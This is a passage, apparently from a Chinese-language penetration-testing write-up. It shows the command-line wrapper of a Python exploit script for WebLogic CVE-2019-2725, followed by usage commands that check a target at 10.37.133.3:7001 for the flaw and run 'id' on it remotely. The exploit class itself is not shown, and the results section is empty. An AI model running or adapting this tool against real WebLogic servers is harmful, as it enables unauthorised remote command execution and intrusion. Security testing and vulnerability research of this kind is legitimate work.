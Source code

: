 ```bash
    parser = argparse.ArgumentParser(description='WebLogic CVE-2019-2725 利用工具')
    parser.add_argument('-t', '--target', required=True, help='目标URL (例如: http://10.37.133.3:7001)')
    parser.add_argument('-c', '--command', help='要执行的命令')
    parser.add_argument('-v', '--verify', action='store_true', help='仅验证漏洞存在性')
  
    args = parser.parse_args()
  
    exploit = WebLogicCVE2019_2725Exploit(args.target)
  
    if args.verify:
        print("[*] 开始漏洞验证...")
        if exploit.test_vulnerability():
            print("[+] 目标存在CVE-2019-2725漏洞")
        else:
            print("[-] 目标不存在CVE-2019-2725漏洞")
  
    if args.command:
        print("[*] 开始命令执行...")
        exploit.execute_command(args.command)

if __name__ == "__main__":
    main()
EOF

chmod +x weblogic_cve_2019_2725_exploit.py
```

**使用修复后的脚本进行验证**:

```bash
# 漏洞验证
python3 weblogic_cve_2019_2725_exploit.py -t http://10.37.133.3:7001 -v

# 执行id命令
python3 weblogic_cve_2019_2725_exploit.py -t http://10.37.133.3:7001 -c "id"
```

**执行结果**:

